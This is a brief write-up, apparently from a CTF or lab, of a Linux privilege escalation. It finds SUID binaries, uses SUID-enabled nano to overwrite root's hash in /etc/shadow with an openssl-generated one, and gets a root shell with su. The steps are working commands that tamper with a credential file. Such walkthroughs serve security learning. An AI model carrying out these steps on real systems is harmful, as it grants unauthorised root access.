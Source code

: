 ### Scan for SUID file
```
find / -perm -4000 2>/dev/null
```

**/usr/bin/nano has SUID bit enabled. We can use this file editor to edit `/etc/shadow` file.**

#### Create a Hash for root
```
openssl passwd -1 -salt <mysalt> <password123> 
```

#### Edit `Shadow` file
```
nano /etc/shadow
```

**Replace the Value of the root password from `*` to the `hash` created with openssl**

#### Access root 
```
su root
```

**Enter the password `password123` and you get a root shell**